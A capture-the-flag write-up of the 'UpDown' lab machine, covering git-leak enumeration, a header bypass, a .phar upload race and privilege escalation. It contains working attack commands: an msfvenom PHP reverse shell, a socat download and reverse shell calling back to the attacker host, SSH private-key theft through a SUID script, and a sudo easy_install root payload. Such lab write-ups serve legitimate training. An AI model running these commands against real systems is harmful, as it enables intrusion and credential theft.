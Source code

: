 # UpDown


## Enumeration

The [initial scan](scans/initial_scan.nmap) shows that the SSH and Apache HTTP services are running on the target.  The website looks like a simple application that allows you to check if your own site is up or not:

![site is up](evidence/screenshots/siteisup.png)

Notice the domain at the bottom of the page: *siteisup.htb*.  Let's add this to our local /etc/hosts file.  This makes me curious as to whether or not DNS is running on the target, but a [udp scan](scans/udp_scan.nmap) shows that it's not.

A little directory busting with ffuf turns up a directory called *dev*.  It also let's us know that this site is built with PHP by the presence of an index.php file.  Browsing to the /dev directory gets us a blank, white page and nothing else.  Further dir busting using our standard wordlist shows only that there's an index.php file in the /dev directory that, apparently, does nothing.  [Fuzzing for subdomains](scans/ffuf-subdomains.html) returns *dev.siteisup.htb* as a valid subdomain; however, when we try to access it, we are met with a *403 Forbidden* error.

[Further fuzzing](scans/ffuf-dirsearch-siteisup_dev.html) of the /dev directory, using a different wordlist, discovers an accessible *.git/* directory.  Browsing to siteisup.htb/dev/.git proves that it is, indeed, available to us.

![siteisup.htb/dev/.git](evidence/screenshots/siteisup_dev-git.png)

Let's download the .git/ directory to our local machine and have a proper look around.

```bash
wget -r http://siteisup.htb/dev/.git
```

![git log - htaccess](evidence/screenshots/git_log-htaccess.png)

After downloading the .git/ directory and running `git log`, we find this interesting entry.  We can check the content of the commit using `git diff`:

```bash
git diff bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab 8812785e31c879261050e72e20f298ae8c43b565
```
(*NOTE: 8812785e31c879261050e72e20f298ae8c43b565 is the next commit after our target.*)

![git diff htaccess](evidence/screenshots/git_diff-htaccess.png)

Based on this, it looks like we need to include a *Special-Dev: only4dev* header in our request in order to access the dev.siteisup.htb site.  We can do this by intercepting a request with Burp and adding the required header, like so:

![burp special-dev](evidence/screenshots/burp-special_dev_header.png)

After sending the request with the additional header, we get access to the site:

![dev.siteisup.htb](evidence/screenshots/dev_siteisup.png)

As a simple test, create a PHP file with the following content and try uploading it:

```php
<?php echo "Hello, World!"; ?>
```

Unfortunately, this is met with a *Extension not allowed!* error.  While looking through the git repo earlier, I noticed a file called *checker.php*.  Once again, we can use `git diff` to try and get a look at the code:

```bash
git diff 57af03ba60cdcfe443e92c33c188c6cecb70eb10 c8fcc4032487eaf637d41486eb150b7182ecd1f1
```
![upload file check](evidence/screenshots/upload_file_check.png)

This tells us several things:

1. Uploaded files must be < 10kb in size.
2. No form of the .php extension (along with several others) is allowed.
3. The file is uploaded to a subdirectory in uploads/ created using the MD5 hash of the current time when the script runs.
4. The script expects a list of URLs, separated by newlines, which it checks one-by-one.
5. After all the checks are complete, the uploaded file is deleted.

Knowing this, it may be possible to create a reverse shell script with the .phar extension and upload it to the target.  But we'll need to include some method of slowing the checker application so that we actually have time to access the reverse shell before it's deleted.

To test these assumptions, create a test.phar file using the following script:

```bash
for i in {1..200}; do echo "http://google.com" >> test.phar; done; echo '<?php echo "Hello, World!"; ?>' >> test.phar
```

The first 200 http://google.com URLs will be used to keep the checker script busy while we navigate to the test.phar script in the uploads/ directory, being sure to add the *Special-Dev: only4dev* header to each request.  Now we go back to dev.siteisup.htb and upload test.phar.

![test.phar uploaded](evidence/screenshots/test_phar_uploaded.png)

![test.phar executed](evidence/screenshots/test_phar_executed.png)

Success!  The checker script was kept busy long enough for us to navigate to, and execute, our test script.

In order to gather as much information about the target as possible, let's make a copy of the test.phar script called *info.phar* and replace the call to echo "Hello, World!" with the following:

```php
<?php phpinfo(); ?>
```

After uploading and executing this script, we can see all the details about the PHP installation on the target.  The most frustrating thing we learn is that the functions we would normally use to get a reverse shell have been disabled:

![php - disabled functions](evidence/screenshots/php-disabled_functions.png)


## Initial Foothold

Luckily, `msfvenom` provides a pretty smart PHP reverse shell that checks for disabled functions:

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.67 LPORT=4444
```

Create a shell.phar file (including the first 200 google.com URLs) and copy the output from `msfvenom` at the bottom.  Fire up a netcat listener (`nc -lnvp 4444 -s 10.10.14.67`), upload the shell.phar file, and execute it from it's uploads/ subdirectory.

![reverse shell](evidence/screenshots/reverse_shell.png)

Voila!  We have a reverse shell.

Next, we look at /etc/passwd and see that there is a user called *developer* that has shell access.  Unfortunately, it's not possible to directly read the private key from /home/developer/.ssh/id_rsa.  There are, however, a couple of scripts in /home/developer/dev that we could use to our advantage, including one that has the SUID bit set:

![developer files](evidence/screenshots/developer-files.png)

The first script (*siteisup*) is a binary file.  As such, reading the contents doesn't really provide many clues as to what it does.  The Python script, on the other hand, looks promising:

![siteisup_test.py](evidence/screenshots/developer-siteisup_test_py.png)

This is good.  We know from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) that it should be possible to abuse the input() function to call system commands.  The problem is that we're using a volitile PHP reverse shell; so, when we try running `python siteisup_test.py`, we get no output and our shell essentially freezes.  The same thing happens when trying to upgrade the shell using the standard python method: `python -c 'import pty; pty.spawn("/bin/bash")'`.  Clearly, we'll have to find another way.

A while back, I came across a useful article that's all about upgrading simple shells, like ours, to fully interactive TTYs.  The second method discussed, [using socat](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat), is the one we'll use here.

Because `socat` isn't pre-installed on the target machine, and it doesn't have internet access, we'll first need to download a standalone binary to our local machine:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
```

Once we have that, spawn a Python HTTP server (`python -m http.server 8000`) and download `socat` to the target:

```bash
wget -q http://10.10.14.67:8000/socat -O /tmp/socat
```

Next, change the file permissions so that `socat` is executable.  Then, on our local machine, set up a listener:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4443
```
(NOTE: we use port 4443 for `socat` because netcat is already listening on port 4444.)

On the target, execute `socat` to connect back to our local machine:

```bash
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.67:4443
```

Just like that, we have a fully upgraded shell.  Now let's see if we can run system commands through the siteisup_test.py script we found earlier:

![siteisup_test.py id](evidence/screenshots/siteisup_test_py-id.png)

The output tells us that it is, indeed, possible to run system commands.  So let's try and get the developer account's private key next:

![siteisup_test.py id_rsa](evidence/screenshots/siteisup_test_py-id_rsa.png)

Since our shell is running with permissions for the www-data account, we still cannot read developer's private key.  All is not lost, though.  There' still the `siteisup` binary script, which is owned by developer and has the SUID bit set.  This is highly suspicious, so let's go ahead and see what it does.

![siteisup id_rsa](evidence/screenshots/siteisup-id_rsa.png)

It looks like this script probably calls siteisup_test.py, meaning we coud use it to retrieve developer's private key.

After saving the private key locally, and changing the file permissions to 600, we're able to SSH in to the target and retrieve the user flag.


## Privilege Escalation

As always, after gaining a foothold, first run `sudo -l` to see what the current account can do.  In this case, the developer account is allowed to run `/usr/local/bin/easy_intall` without a password.  `easy_install` is used for installing Python packages and, thanks to [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/#sudo), we know it's possible to use it to elevate our privileges:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
![root privileges](evidence/screenshots/root_privs.png)

Now all that's left is to grab the root flag from /root/root.txt.